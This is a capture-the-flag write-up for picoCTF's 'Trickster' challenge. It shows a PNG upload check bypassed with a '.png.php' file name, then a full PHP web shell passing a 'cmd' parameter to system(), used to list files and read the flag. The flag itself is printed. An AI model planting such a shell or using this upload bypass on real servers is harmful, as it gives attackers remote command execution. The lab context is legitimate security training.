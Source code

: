 # Trickster
We are given a web app which processes .png files.
URL: - `http://atlas.picoctf.net:64957/`

When we copen the web app we are directed to the web page given below.
![image](https://github.com/user-attachments/assets/493889b2-8712-4a9a-bb11-3a45037635e2)

The source code is given below:-
```bash
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>Welcome to my PNG processing app</h1>

    
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>
```

Initially I tried uploading a .png file to see how it responds.
![image](https://github.com/user-attachments/assets/8340a272-c4ae-400c-99d4-ff3af3036bc0)

to check which type of format it is, we have to add index.html or index.php as these are generally the default pages shown.
![image](https://github.com/user-attachments/assets/fbe5a567-99a5-441d-b985-9c81390ea71f)
in the above image we can see it is not HTML.

Rather than it is PHP.
![image](https://github.com/user-attachments/assets/40544d77-b044-417f-a651-75c7617d9d15)

After figuring that out we can the following web pages to get more hints: -
1.) /instructions.txt
2.) /robots.txt

On checking /instructions.txt
![image](https://github.com/user-attachments/assets/21580aa8-518f-4656-8759-fac5a8fa4b88)

On checking /robots.txt
![image](https://github.com/user-attachments/assets/71128b85-8b0e-4914-879e-ec3cf72789e4)

We can see that a folder has benn mentioned here. /uploads/
After that we can try uploading a text file containing a php webshell.
This might let us access the web shell where we can execute commands.
```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

After uploads the file, we will go the webpage /uploads/FILE.png.php (FILE.png.php is the file where the php webshell is saved).
![image](https://github.com/user-attachments/assets/82bff245-1096-4282-9dd3-ce3d6c8e092a)

We now have the webshell where we can execute commands.
I used `ls -l` command to get the file permissions
![image](https://github.com/user-attachments/assets/5392faa4-2990-446a-8d60-aa5fb77cf4a0)

Further i used the command `ls -l` on the the directory `/var/www/html`, where is a root directory for all the web content.
![image](https://github.com/user-attachments/assets/d219d70e-953e-4b52-a4ed-baa87895eeff)

Here we can see that a suspicious file is present. Now we use `cat` command to read the file.
![image](https://github.com/user-attachments/assets/e130ede9-92a8-42e3-b124-c62db7e3070a)

Flag: - `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}`.

This is how I solved it.
